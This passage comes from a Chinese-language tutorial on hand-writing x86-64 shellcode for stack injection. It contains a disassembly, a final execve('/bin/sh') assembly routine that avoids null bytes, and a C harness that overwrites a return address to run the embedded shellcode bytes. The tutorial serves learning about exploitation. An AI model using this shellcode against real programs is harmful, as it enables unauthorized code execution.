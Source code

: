 ``` language-bash

0000000000401166 <aaa>:
  401166:	48 31 c0             	xor    %rax,%rax
  401169:	48 89 44 24 08       	mov    %rax,0x8(%rsp)
  40116e:	48 8b 3c 24          	mov    (%rsp),%rdi
  401172:	48 8d 34 24          	lea    (%rsp),%rsi
  401176:	48 31 d2             	xor    %rdx,%rdx
  401179:	b0 3b                	mov    $0x3b,%al
  40117b:	0f 05                	syscall
  40117d:	48 31 c0             	xor    %rax,%rax
  401180:	b0 e7                	mov    $0xe7,%al
  401182:	48 31 ff             	xor    %rdi,%rdi
  401185:	0f 05                	syscall

0000000000401187 <bbb>:
  401187:	e8 da ff ff ff       	callq  401166 <aaa>
  40118c:	2f                   	(bad)
  40118d:	62                   	(bad)
  40118e:	69 6e 2f 73 68 00 90 	imul   $0x90006873,0x2f(%rsi),%ebp
```

　　需要注意的是，不只是`\x00`，在某些场景下，`\x0A`、`\x0D`、`\x20`以及`\x08`这些特殊字符也会影响到代码的注入，这个就要具体问题具体分析了，不能一概而论，总之，大家可以暂时忽略这些隐患，而在真正注入代码时，观察能否注入成功，如果不能，再根据具体原因来修改代码，千万不要空想代码可能存在哪些bug。
　　我最初做到这里的时候，就直接开始做下一步工作了，但事实上这段代码还存在一个问题，虽然现在单独使用并没有任何影响，但在真正注入时会使得攻击失效。为了方便，我直接在这里提出来，其实就是字符串末尾必须填入一个`\x00`，否则传入`execve`的参数不再是`/bin/sh`字符串，而是`/bin/sh***`，这样会导致系统调用失败；同时，又考虑到`\x00`会终止整个的代码的注入，所以我们不能简单地补上一个`\x00`。这时我们该怎么做呢？答案其实也不难，直接在代码里对字符串末尾的字节进行修改，赋值为0就好了嘛！所以，**最终**我们将使用的shell code是这样的：

``` language-bash
main:
    jmp bbb
aaa:
    xor %rax, %rax
    movq %rax, 0x8(%rsp)
    movq 0x0(%rsp), %rdi
    movb %al, 0x7(%rdi) # %rdi为字符串起始地址，这里就是将第8个字符赋值为0
    lea 0x0(%rsp), %rsi
    movb $0x3b, %al
    syscall
    xor %rax, %rax
    movb $0xe7, %al
    xor %rdi, %rdi
    syscall
bbb:
    callq aaa
    .string "/bin/sh"

    .global main
    .type main, @function
```

　　需要注意的是，不同于前面几版的shell code，最终版的程序是无法单独运行的，因为指令`movb %al, 0x7(%rdi)`有对代码段(code section，只读区域)进行修改，这是不被允许的，所以程序在执行到这条指令时，会产生错误`Segmentation fault (core dumped)`。但不用担心，当我们将这段代码注入到目标程序以后，它又是可以运行的了！因为我们是将代码注入到目标程序的栈中，我们知道栈空间的数据是可以修改的，不像代码段那样只可读不可写。
　  不过为了证明最终的代码可以工作，我们还是能设计一个简单的测试程序来验证的：
``` language-c
// test_final.c
char shellcode[] = "\xeb\x24\x48\x31\xc0\x48\x89\x44\x24\x08\x48\x8b\x3c\x24\x88\x47\x07\x48\x8d\x34\x24\x48\x31\xd2\xb0\x3b\x0f\x05\x48\x31\xc0\xb0\xe7\x48\x31\xff\x0f\x05\xe8\xd7\xff\xff\xff/bin/sh";
// 汇编代码翻译后得到的机器码
void shell() {
        long long *ret;
        ret = (long long *)&ret + 0x2; // 这一步有些tricky，其实作用就是使ret指向函数返回地址
        *ret = (long long)shellcode; // 有了上一步，这里我们就可以修改返回地址，使程序跳转到shellcode
}
```